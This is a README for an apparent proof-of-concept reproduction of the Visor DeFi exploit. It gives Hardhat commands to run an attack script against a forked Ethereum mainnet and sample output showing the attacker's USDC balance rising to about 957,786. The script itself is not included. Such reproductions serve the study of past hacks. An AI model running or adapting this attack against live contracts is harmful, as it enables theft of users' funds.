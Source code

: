 # Visor exploit

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Attacker USDC balance: 0.0
Exploiting... transcation:  0x00ce9e37ea3fb76f861cf0bc114c2d5314acd880a40f0f72d1b1292b72e4db29
Exploit complete.
Attacker USDC balance: 957786.585605
```
This means the attack is complete
> The block height of the fork is 14326931


## Link

* https://twitter.com/peckshield/status/1500105933128495108
